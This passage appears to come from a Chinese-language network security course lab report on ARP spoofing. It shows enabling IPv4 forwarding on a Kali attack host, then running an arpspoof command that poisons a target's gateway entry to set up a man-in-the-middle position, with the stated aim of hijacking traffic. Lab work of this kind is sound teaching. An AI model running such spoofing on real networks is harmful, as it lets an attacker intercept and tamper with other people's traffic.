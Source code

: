  ```bash
  cat /proc/sys/net/ipv4/ip_forward
  ```

  ![](/网络安全/chap0x04/images/4-4-2-1.png)
  
  - 3.在靶机执行
   ```bash
   ping baidu.com
   ```
   ![](/网络安全/chap0x04/images/4-4-3-1.png)
   
   通过执行结果可知，KaliAttackhost成功开启arp欺骗的同时开启ipv4转发功能，此时KaliTarget靶机也可以正常上网。

- 执行arpspoof -i eth0 -t 192.168.111.1 192.168.111.2实现对网关的欺骗，此时形成中间人，可以进行劫持攻击
   ```bash
    # 192.168.111.1为靶机的默认网关的ip地址，192.168.111.2为靶机的IP地址网关的ip地址
   ```
   ```bash
   arpspoof -i eth0 -t   192.168.111.1 192.168.111.2
  ```
  
    ![](/网络安全/chap0x04/images/4-5-1-1.png)
    ![](/网络安全/chap0x04/images/4-5-1-2.png)
    